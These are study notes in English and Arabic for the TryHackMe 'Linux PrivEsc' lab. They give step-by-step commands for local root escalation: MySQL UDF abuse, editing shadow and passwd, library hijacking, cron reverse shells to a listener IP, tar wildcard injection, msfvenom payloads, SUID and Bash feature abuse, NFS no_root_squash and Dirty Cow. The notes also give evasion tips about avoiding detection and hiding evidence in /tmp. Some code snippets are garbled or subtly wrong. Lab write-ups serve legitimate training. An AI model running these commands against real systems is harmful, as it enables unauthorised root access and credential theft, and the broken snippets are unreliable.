 # Linux PrivEsc

[tryhackme_Linux PrivEsc](https://tryhackme.com/room/linuxprivesc?ref=blog.tryhackme.com)


<details>
  <summary>Service Exploits</summary>

## Linux Privilege Escalation via MySQL UDF Exploit

### 🎯 Goal

Gain **root shell access** by exploiting a misconfigured MySQL service (running as root with no password) using a **User Defined Function (UDF)**.

---

### 🔹 Overview

* MySQL is running **as root**.
* The **"root" MySQL user has no password**.
* We'll use a known exploit (`raptor_udf2.c`) to create a MySQL function that executes **system commands as root**.

---

### 🧪 Step-by-Step Instructions

#### 1. 🔧 Go to the exploit directory:

```bash
cd /home/user/tools/mysql-udf
```

#### 2. ⚙️ Compile the UDF exploit code:

```bash
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

* This compiles the `.c` code into a shared object `.so` file.
* `-fPIC` and `-shared` are necessary to load it as a library into MySQL.

#### 3. 🛠️ Connect to MySQL as root (no password):

```bash
mysql -u root
```

#### 4. 📦 Create the custom function in MySQL:

```sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

* This loads the `.so` file as a **MySQL plugin**.
* It creates a **new function `do_system()`** that can execute system commands.

#### 5. 🧨 Use the function to gain a root shell:

```sql
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

* Copies `/bin/bash` to `/tmp/rootbash`.
* Sets SUID bit so it runs **with root privileges**.

#### 6. 🚪 Exit MySQL and run root shell:

```bash
exit
/tmp/rootbash -p
```

* `-p` allows bash to run as the **effective UID 0 (root)**.

#### 7. 🧹 Clean Up

```bash
rm /tmp/rootbash
exit
```

* Delete the SUID binary.
* Exit root shell to avoid detection.

---

### ✅ Summary

| Step | Action                                           |
| ---- | ------------------------------------------------ |
| 1    | Compile UDF exploit into `.so` file              |
| 2    | Connect to MySQL (no password)                   |
| 3    | Inject `.so` into MySQL plugin path              |
| 4    | Create and use `do_system()` to copy + SUID bash |
| 5    | Run bash with `-p` for root shell                |
| 6    | Remove `/tmp/rootbash` and exit                  |

🔐 **Always clean up and remove root shells after testing!**

---

🛡️ **Note:** This method only works if:

* MySQL runs as root
* You can connect as root (no password)
* You can write to plugin directory (`/usr/lib/mysql/plugin`)

Used responsibly, this is a great example of **local privilege escalation** via a poorly configured MySQL setup.

  
</details>




<details>
  <summary>Weak File Permissions</summary>

* <details>
    <summary>Readable /etc/shadow</summary>

    ### 1. Readable /etc/shadow (يمكن قراءته)

    * `ls -l /etc/shadow`
        * `-rw-r----- root shadow /etc/shadow` (أي يمكن قرائته)

    * `cat /etc/shadow`
    * (كل اليوزرات بالباسورد تبعها متهاش Hash)

    * **To know type of hash**
        * `john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`
    * (يكسر ال hash و يقولك على نوعه)
    
  </details>

* <details>
  <summary>Writable /etc/shadow</summary>

   ### 2. Writable /etc/shadow (يمكن الكتابة)

   * (لو الملف ده ينفع تكتب فيه هتمسح الباسورد بتاع ال root user أو admin user وتحط مكانه باسورد من عندك)

   * `mkpasswd -m sha-512 newpassword`    (ممكن تعمل باسورد بالامر ده)
      

   * `su root`
    * (ادخل الباسورد الجديد)
    * !!!مبروك
  
  </details>



* <details>
     <summary>Writable /etc/passwd</summary>

    ### 3. Writable /etc/passwd (يمكن الكتابة)

   * `openssl passwd frank`
    * (لعمل باسورد جديد)
       * `$1$aBcDeF$gH...`

   * `nano /etc/passwd`
       * `root:x:0:0:root:/root:/bin/bash` (remove `x`)
       * Becomes -> `root::0:0:root:/root:/bin/bash` (الباسورد الان فاضي)
       * `root:$1$aBcDeF$gH...:0:0:root:/root:/bin/bash` ( اكتب الباسورد اللى انت عملته مكان ال `x`)

   * `su root`
    * (اكتب الباسورد الجديد و مبروك عليك!!!)


  </details>




  
</details>



<details>
  <summary>Sudo</summary>


* <details>
     <summary>Shell Escape Sequences</summary>

    * `sudo -l`
    * (عرض الأوامر التي يمكن تشغيلها باستخدام Sudo بدون الحاجه لادخال كلمه مرور)
  

    * **`gtfobins.github.io`**
    * (البحث في gtfobins عن أوامر قابلة للاستغلال)

     
  </details>


* <details>
     <summary>Environment Variables</summary>

   * **Environment Variables:** `(LD_LIBRARY_PATH - LD_PRELOAD)`
    * (يمكن نستغل الـ Environment variables دي)
    * **شرح بسيط:** (عشان أي برنامج يعمل لابد يحتاج الى تحميل مكتبات مشتركه لتنفيذ وظائف معينه أماكن هذه المكتبات `Lib` أو `/usr/lib`)
    * (هذه المتغيرات تتحكم في كيف وأين يبحث البرنامج عن مكتبات نقدر نستغلها علشان نوصل بيها للـ root)


    >[!warning] ⚠️⚠️
    >
    > لو عملنا مكتبه تحتوى على كود خبيث (مثلا كود بيفتح `root shell`)
    >
    > وجعلنا **_`LD_PRELOAD`_** يشير اليها فان :
    >
    > اى برنامج يتم تشغيله بصلاحيات ال ``SUDO`` هيقوم اولا بتحميل المكتبه الخبيثه التى انشاناها مم يعطيك صلاحيات ``ROOT``



   This method works if `LD_LIBRARY_PATH` is inherited. It tells a program to look for shared libraries in a specified directory first, allowing you to hijack a library call.

   1.  **Find a target library:**
       * Use `ldd` to see which shared libraries a program uses.

       ```bash
       ldd /usr/sbin/apache2
       ```

   2.  **Create a malicious shared object:**
       * Compile the C code from `/home/user/tools/sudo/library_path.c`.
       * **Crucially, name the output file the same as one of the libraries used by the target program** (e.g., `libcrypt.so.1`).

       ```bash
       gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
       ```

    3.  **Run the program with `LD_LIBRARY_PATH`:**
        * Execute the program using sudo, setting `LD_LIBRARY_PATH` to the directory containing your malicious library (`/tmp`).

        ```bash
        sudo LD_LIBRARY_PATH=/tmp apache2
        ```
  
    * This should also spawn a root shell because the program loads your malicious `libcrypt.so.1` instead of the real one.

   #### **Further thought / exercise:**

   * Try renaming `/tmp/libcrypt.so.1` to the name of another library used by `apache2` and re-run the exploit. Does it still work? If not, why? How would the        `library_path.c` code need to be changed to make it work with a different library?



  </details>

  
</details>


 



<details>
  <summary>Cron Jobs</summary>


* <details>
     <summary>File Permissions</summary>


    # Cron Jobs - File Permissions (Crontab)

   ### 5) Cron Jobs - File Permissions

   * **Cron Job** هو مهمه مجدوله مع تشغيلها تلقائيا في أوقات محدده
    * الملف اللي فيه المهام المجدوله -> `/etc/crontab`

   ---

   **ex:**

   * `cat /etc/crontab`
    * وجدنا أن الملف ده -> `overwrite.sh`
    * الآن نريد تحديد مكانه

   * `locate overwrite.sh`
       * `/usr/local/bin/overwrite.sh`
    * لاقيناه وهنلاحظ انه قابل للتعديل


   * `nano /usr/local/bin/overwrite.sh`
       * `#!/bin/bash`
       * `bash -i >& /dev/tcp/10.0.47.102/4444 0>&1` the ip of ``tun0``
   
    * هنستبدل محتوى الملف بالكود ده
    * الكود ده بيخلى جهاز الضحيه يتصل بنا عن طريق ``NetCat`` على منفذ ``4444``
    * وبعدين نحفظ الملف ونتاكد انه قابل للتنفيذ ``chmod +x``
  

   * `nc -nvlp 4444`
    * ( الآن بنقوم بالإستماع على ال port 4444 )

   * بمجرد ما الملف يخلص شغله هتكون راجعلنا بالجهاز
   * بصلاحية Root عن طريق -> **Reverse Shell**

   * `whoami` 
       * `root`
    * مبروك

     
   </details>



* <details>
     <summary>PATH Environment Variable</summary>


   # Cron Jobs - PATH Environment Variable

   (overwrite.sh لو مينفعش تكتب جواه)

   ### 6) Cron Jobs - PATH Environment variable

   * هنا بنستغل اعدادات الـ PATH الخاصة بالـ Cron Jobs للوصول على صلاحيات الـ `root`

   * `cat /etc/crontab`
       * `PATH=/home/user:/usr/local/sbin:/...`
       * هنا في مشكله هو بيبحث عن الملفات المجدوله زى overwrite.sh
       * لكن بيبدأ البحث في `/home/user` والملف الاصى موجود فى `/usr/local/bin`
       * ده معناه إن لو عملنا ملف بنفس الاسم
       * في `/home/user` وكتبنا فيه كود خبيث يخلينا نحصل صلاحيات `root`

   * `nano /home/user/overwrite.sh`
       * `#!/bin/bash`
       * `cp /bin/bash /tmp/rootbash`
       * `chmod +s /tmp/rootbash`
       * الكود ده بينقل ال ``bash`` ل ``/tmp/rootbash`` وده ملف احنا عملناهو بعد كده يديلو صلاحيات ``SUID``
       * اى ان المستخدم يمكنه تشغيل ``BASH`` بصلاحيات ``root``
    

   * `chmod +x /home/user/overwrite.sh`
       * نخلي الملف قابل للتنفيذ
       * الآن عند تشغيل الـ cron الملف هيتنفذ ما يؤدي الى
       * إنشاء `rootbash` في `/tmp/`

   * `/tmp/rootbash -p`
       * الأمر ده هيخلي `bash` يحتفظ بصلاحيات ال `root`
       * من بعد تشغيله من قبل مستخدم عادي

   * `whoami`
       * `root`


   > ### ليه استخدمنا ``/tmp`` لتخزين الملف
   >
   - > عشان ده مجلد عام يمكن لاى مستخدم يكتب فيه لذا يمكنك انشاء ملفات بدون صلاحيات
   - > معظم الانظمه تمسح الملفات داخل ``/tmp`` تلقائيا عند اعاده التشغيل مما يساعد فى اخفاء الادله بعد الهجوم

     
   </details>



* <details>
     <summary>Wildcards</summary>

   # Cron Jobs - Wildcards

   (مثلا الملف المجدول ده هي `compress.sh`)
   (`` * `` بتنفذ الاوامر على كل الملفات)

   ### 7) Cron Jobs - WildCards

   * استغلال `tar` الذي يعمل داخل المهمة المجدولة للوصول لصلاحيات `root`. وبما ان الأمر `tar` يتم تشغيله باستخدام `*` فسوف نضيف ملفات أسماءها شبيهه لأوامر `tar` ما يمكننا من عمل Reverse Shell والتحكم بالجهاز.

   * `cat /usr/local/bin/compress.sh`
       * `cd /home/user`
       * `tar czf /tmp/backup.tar.gz *` -> (هينفذ كل الاوامر اللي هنا و يوديها ``/tmp``)

   * `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.0.47.102 LPORT=4444 -f elf -o shell.elf`
       * (على جهازنا، نعمل `shell` عن طريق `msfvenom` باستخدام `shell` لـ linux)

   * `scp shell.elf user@10.10.242.228:/home/user`
       * (بنقوم بنقل الملف لجهاز الضحية)

   * `chmod +x /home/user/shell.elf`
       * (نجعل الملف قابل للتنفيذ)

   * `touch /home/user/--checkpoint=1`
   * `touch /home/user/--checkpoint-action=exec=./shell.elf`

   * `nc -nvlp 4444`
       * (والاستماع على `port 4444` من أجل الحصول على `shell`)

   * `whoami` or `id`
       * `root`



   > ### لماذا ``tar`` كان قابل للاستغلال ؟
   >
   > لان ``tar`` يرى ملفات تحمل اسماء مشابهه لخيارات سطر الاوامر ``--checkpoint=1`` يعتبرها كانها
   > خيارات فعليه او اوامر وليست مجرد اسماء ملفات
   >
   > ### هل يمكن تنفيذ نفس الاستغلال على برامج اخرى ؟
   >
   > نعم مثل :
   >
   > rsync , find , cp , mv , gzip , sort , grep , awk
   >
   > ستجد استغلالهم على gtfobins.io 


     
</details>
  
</details>





<details>
  <summary>SUID / SGID Executables</summary>

* <details>
     <summary>Known Exploits</summary>

   # SUID/SGID Executables - Known Exploits

   ### 8) SUID/SGID Executables - known exploits

   * استغلال البرامج التي تعمل بصلاحيات SUID أو SGID للحصول على صلاحيات الـ `root`.

   * `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`
       * البحث عن ملفات تحمل صلاحيات SUID أو SGID.
       * Example found: `/usr/sbin/exim-4.84-3`

   * search on ``exploitDB`` about **_exim-4.84-3_**
       * on this room Found exploit code at: `/home/user/tools/suid/exim/cve.sh`
       * (هنا في كود الاستغلال اللي وجدناه لبرنامج exim)

   * `chmod +x /home/user/tools/suid/exim/cve.sh`

   * `whoami`
       * `root`
       * (مبروك)


  </details>


* <details>
     <summary>Shared Object Injection</summary>


   # SUID/SGID Executables - Shared Object Injection

   ### 9) SUID/SGID executables - Shared object injection

   * هنا ضمن الملفات التي وجدناها تحمل صلاحيات SUID SGID وجدنا الملف: `/usr/local/bin/suid-so`
   * عند محاولة تشغيله يقوم بالتحميل ولكن لا نعرف ماذا يحدث.

   * `strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`
       * عرض العمليات التي يقوم بها الملف من قبل `strace` لفلترة العمليات التى تخص 
       * فتح ملفات او محاولات البحث عن ملفات غير موجوده
       * Example output showing a missing library: `/home/user/.config/libcalc.so`
       * (وجدنا أن الملف يحاول تحميل مكتبه مشفره ولكنه لا يجدها)

   * `mkdir /home/user/.config`
       * (المجلد الذى به الملف)

   * Create the malicious library file (`libcalc.c`):
       * (قم بعمل هذا الملف فى اى مسار على النظام)
       ```c
       #include <stdio.h>
       #include <stdlib.h>

       void _attribute_((constructor)) init() {
           setid(0);
           setلid(0);
           system("/bin/bash");
       }
       ```

   * `gcc -shared -fPIC -o /home/user/.config/libcalc.so ~/path/to/your/libcalc.c`
       * (تم تحويل الكود من الملف إلى مكتبه مشتركه وإرساله الى المسار المراد)

   * `/usr/local/bin/suid-so`
       * (تشغيل الملف مرة أخرى ولكن هذه المرة سوف يجد المكتبة المحقونة وتكون خبيثة)

   * `whoami`
       * `root`
       * (مبروك يا باشا)


  </details>


* <details>
     <summary>Environment Variables</summary>


   # SUID/SGID Executable - Environment Variables

   ### 10) SUID/SGID executable - Environment variables

   * ضمن الملفات التي وجدناها تحمل صلاحيات SUID/SGID وجدنا الملف: `/usr/local/bin/suid-env`
   * عند تشغيل الملف هنلاحظ إنه سيحاول تشغيل Apache2 بس من غير ما يتحددله مسار كامل لتشغيل هذه الخدمة
   * بـ `service apache2 start` (مسار غير كامل).
     * ده مثال للمسار الكامل ``/usr/sbin/servic apache2 atart``

   * `strings /usr/local/bin/suid-env`
       * This shows the program calls `service apache2 start`.

   * `gcc -o service /home/user/tools/service.c`
       * هنعمل ملف باسم `service` فيه كود خبيث مثل الأكواد الخبيثة السابقة ونستخدم `gcc` لإنشاء ملف تنفيذي.

   * `export PATH=.:$PATH/usr/local/bin/suid-env`
       * ولابد أن يبحث النظام في المسار الحالي (`.`) قبل المسارات الأخرى.
          * المسار الحالى ``/home/user``

   * Now run the SUID executable: `/usr/local/bin/suid-env`
       * It will execute your malicious `./service` file instead of the system's `service` command.

   * `whoami`
       * `root`



  </details>


* <details>
     <summary>Abusing Shell Features (#1)</summary>


   # SUID/SGID Abusing - ShellShock Partners #1

   ### 11) SUID/SGID Abusing - ShellShock Partners #1

   * استغلال ثغرة في إصدارات `Bash` قبل الـ `4.2-048` تكمن باسم `ShellShock Function import`. والتي تسمح للمهاجم بتعريف دالة `Bash` تحمل نفس اسم مسار، تنفيذ برنامج معين
   * ثم تصديرها بحيث تستخدم بدلا من البرنامج الاصلى عند استدعائه.
   * في الملف `/usr/local/bin/suid-env2` له نفس صلاحيات `suid/sgid` مثل الملف السابق لكن الفرق أنه بيشغل المسار كامل.

   * `/bin/bash --version`
       * Output might be something like `4.1.5` -> (إصدار Bash قديم)

   * Define a function with the same name as the command path:
       ```bash
       function /usr/sbin/service { /bin/bash -p; }
       ```

   * Export the function:
       ```bash
       export -f /usr/sbin/service
       ```
       * (هذا الكود سيقوم بتعريف دالة في `bash` تحمل اسم `/usr/sbin/service` و عند تشغيلها . تقوم بفتح `Bash Shell` بصلاحيات محفوظه (`-p`)
       * ثم تصدير الداله مما يجعلها تستخدم بدلا من استخدام ``/usr/sbin/service`` عند استدعاؤها)

   * Run the SUID executable:
       ```bash
       /usr/local/bin/suid-env-2
       ```
       * (تشغيل الملف الذي سيستدعي `service` الذي تم حقنه ليشغل `Bash Shell` ويأخذنا إلى صلاحيات `root`)

   * `whoami`
       * `root`
       * (مبروك!!!)



  </details>


* <details>
     <summary>Abusing Shell Features (#2)</summary>


   # SUID/SGID Executable - Abusing Shell #2

   ### 12) SUID/SGID executable - Abusing Shell #2

   * إستغلال أيضاً إصدارات `Bash` القديمة ولكن لتمكين وضع ال  `Debugging`.
   * و الاستفادة من متغير `PS4` لحقن أمر خبيث يمكن المستخدم من ترقية صلاحياته والحصول على `Root Shell`.

   * Run the SUID executable with custom environment variables:
       ```bash
       env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
       ```
       * (إنشاء نسخة من `Bash` بصلاحيات `Root` ما سيسمح للمهاجم بالحصول على `Root Shell`)

   * Execute the newly created SUID shell:
       ```bash
       /tmp/rootbash -p
       ```
       * (تشغيل الملف الذي أنشأناه بصلاحيات `Root` الذي يحافظ على الصلاحيات `p-`)



  </details>



  
</details>







<details>
  <summary>Passwords & Keys</summary>


* <details>
     <summary>History Files</summary>

   # Passwords & Key - History Files

   ### 13) Passwords & key - history files

   * ممكن يكون المستخدم قد كتب الباسورد بالخطأ وسط أوامر بدلاً من نافذة إدخال كلمة السر.

   * Check the user's history file for credentials:
       ```bash
       cat ~/.history | less
       ```

   * Example of a password found in the history:
       ```bash
       mysql -h somehost.local -u root -pPassword123
       ```

  </details>

* <details>
     <summary>Config Files</summary>

    # Passwords & Keys - Config Files

    ### 14) Passwords & keys - Config files

    * إستغلال وإعدادات الـ `Config files` التي تحتوي على ملفات حساسة.

    * Check a configuration file:
        ```bash
        cat /home/user/.myvpn.oven
        ```
        * The output might reference another file containing credentials: `auth-user-pass /etc/openvpn/auth.txt`
        * (وجدنا هذا المسار)

    * Read the file containing the credentials:
        ```bash
        cat /etc/openvpn/auth.txt
        ```
        * The output could be the username and password:
        ```
        root
        Password123
        ```
        * (مبروك عليك اليوزر والباسورد)

  </details>

* <details>
     <summary>SSH Keyss</summary>

   # Passwords & Keys - SSH Keys

   ### 15) Passwords & keys - SSH keys

   * `ls -la`
       * We found the `.ssh` directory.

   * `ls -l .ssh`
       * Inside, we find a private key, for example: `root_key`
       * (وجدنا الـ private key الخاص بالـ `root`. سنقوم بنقله على جهازنا الـ `kali` الخاص بنا داخل ملف `root-key`)

   * `chmod 600 root_key`
       * (هذا لجعل المفتاح مقروء فقط من قبل المستخدم الحالي مما يمنع `ssh` رفضه)

   * `ssh -i root_key root@10.10.19.152`
       * This logs you in as root.
       * `root#`
       * (مبروك عليك)


  </details>
  
</details>




<details>
  <summary>NFS</summary>


# NFS (Network File System)

### 16) NFS

* عند مشاركه ملف عبر NFS، يمكن للمستخدمين عن بعد إنشاء ملفات على النظام المستضيف وعادة ما يتم تشغيل `root_squashing` لمنح الشخص `root`. يمن امتلاك الملفات على النظام المضيف لكن هنا تم تعطيل هذه الميزه ``هذا الlab``

#### On the Server Machine

* Check the NFS share configuration:
    ```bash
    cat /etc/exports
    ```
    * Look for `no_root_squash` in the output, output for example: `/tmp *(rw,no_root_squashing)`

#### On the Client (Attacker) Machine

1.  **Mount the share:**  ``على جهازى``
    ```bash
    sudo su     
    mkdir /tmp/nfs
    mount -o rw,vers=3 <server_ip>:/tmp /tmp/nfs  #عنوان الماششين او ال lab
    ```
    * يتم ربط ``/tmp/nfs`` فى kali بمجلد ``/tmp`` على الخام او الماشيين 
    * أي ملف يتم إنشاؤه في `/tmp/nfs` على `kali` سيظهر مباشرة في `/tmp` على الخادم.
    *  وبما أن `no_root_squash` مفعل فإن أي ملف ينشئه `root` على `kali` سيحمل ملكية `root` على الخادم (machine)
    *  

1.  **Create a malicious payload:** ``on my device``
    ```bash
    msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
    ```
    * (إنشاء ملف خبيث ووضعه داخل `/tmp/nfs` والذي سيمكننا من عمل `shell` الذي سيعطينا صلاحيات `root` على الخادم)

2.  **Make the payload SUID and executable:** ``on my device``
    ```bash
    chmod +xs /tmp/nfs/shell.elf
    ```
    * (إعطاء الملف الصلاحية اللازمة ليكون `SUID` وجعله قابل للتنفيذ)

#### On the Server Machine

* **Execute the payload:** ``on server``
    ```bash
    /tmp/shell.elf
    ```
    * (تشغيل الملف الخبيث على الخادم)

* **Check your identity:**
    ```bash
    whoami
    ```
    * `root`
    * (مبروك)



> ## ما هو NFS (Network File System) ؟
>
- >  هو بروتوكول يسمح بمشاركه الملفات بين الاجهزه على الشبكه
- > يسمح يسمح للمستخدمسن بتركيب ``(mount)`` مجلدات من جهاز الى اخر كما لو كانت عليه

  # ``المشكله`` 
- > ال ``(root shquashing)`` هى ميزه امان فى ``NFS`` تمنح المستخدم ``ROOT`` على جهاز العميل من ان يكون ``ROOT`` على الخادم
- > عندما تكون هذه الميزه معطله  ``(no_root_squashing)`` فان ``ROOT`` على جهاز العميل يصبح ``ROOT`` على جهاز الخادم مما يسمح بعمل ``PRIVESC``
 
  
</details>





<details>
  <summary>Kernel Exploits</summary>


# Kernel Exploits - Dirty Cow

(Copy-on-write)

### 17) Kernal Exploits - (Dirty Cow)

* اختراق النظام عن طريق استغلال ل ثغره فى ``kernal`` وتحديدا ثغره ``dirty cow`` اللى هى ثغره تصعيد صلاحيات فى ``linux``

* Find potential exploits:
    ```bash
    perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl
    ```
 
   * ده اسكربت مكتوب بلغه ``perl`` بيفحص النظام ويعرض قائمه بالثغرات الموجوده فى ال ``kernal`` بحيث تختار واحده منها وتستغلها

* **Exploit Details:**
    * **Vulnerability:** Dirty Cow
    * **CVE:** CVE-2016-5195
    * **Source:** `http://exploit-db.com/exploits/45697`

* **The exploit code**
    * ``/home/user/tools/kernel-exploits/dirtycow/c0w.c``
       * ده كود بيستغل هذه الثغره موجود عندنا على الماشيين بس فى الحياه الواقعيه هتكتبه او تجيبه جاهز
       * المهم ``cow`` هو ميكانزم او اليه بيستخدمها ال ``kernal`` لحمايه البيانات فى الذاكره
       * الكود ده بيستبدل ``/usr/bin/passwd`` المسؤول عن تغيير كلمات المرور بملف ``shell`` يمنح صلاحيات ``root`` و بيعمل نسخه احتياطيه ل ``/usr/bin/passwd``
       * فى ``/tm/bak`` عشان يرجعله بعد الاستغلال
         

* **Compile the exploit:**
    * `gcc -pthread /tools/kernal-exploit/DirtyCow/cow.c -o cow`
       * تحويل الكود لملف تنفيذى لاستخدامه لتنفيذ الثغره 
    

* **Run the exploit:**
    ```bash
    ./cow
    ```

    * تشغيل الملف.
    * الان قام باستبدال ``/usr/bin/passwd`` بملف ``shell``

* **Trigger the payload:**
    ```bash
    /usr/bin/passwd
    ```
    * (تشغيل الملف الآن بعدما استبدل `shell` بملف `/usr/bin/passwd`)

* **Check your identity:**
    ```bash
    whoami
    ```
    * `root`
    * (مبروك)

  
</details>




---

> [!important]
> ### privesc-scripts


* Linpeas.sh
* LinEnum.sh
* Lse.sh






















